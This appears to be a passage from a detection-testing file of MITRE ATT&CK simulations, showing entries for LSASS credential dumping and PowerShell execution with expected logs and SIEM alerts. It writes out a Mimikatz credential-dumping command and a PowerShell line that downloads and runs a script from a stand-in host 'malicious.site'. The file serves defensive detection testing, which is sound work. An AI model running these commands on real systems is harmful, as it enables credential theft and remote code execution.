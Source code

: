 # 🔥 Atomic Red Team – 30 MITRE ATT&CK Technique Simulations

This file contains 30 real-world attack technique simulations to validate SIEM detection capabilities.

## ✅ T1003.001 – LSASS Credential Dumping

### Description
Access LSASS memory to dump credentials using Mimikatz.

### ⚠️ Important Note
The following command is for **educational use only** and must be executed in an **isolated lab**. Do not use on production systems.

### Atomic Test
```cmd
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

### Tool Used
Mimikatz

### Expected Behavior
- Logs generated in Sysmon, Winlogbeat, or Windows Event Log
- Command-line execution, process creation, or network activity

### Detection
- SIEM rule triggered
- Alert mapped to MITRE ATT&CK: **T1003.001**

## ✅ T1059.001 – PowerShell Execution

### Description
Execute PowerShell commands to download and run a script remotely.

### ⚠️ Important Note
The following command is for **educational use only** and must be executed in an **isolated lab**. Do not use on production systems.

### Atomic Test
```cmd
Invoke-Expression (New-Object Net.WebClient).DownloadString("http://malicious.site/script.ps1")
```

### Tool Used
PowerShell
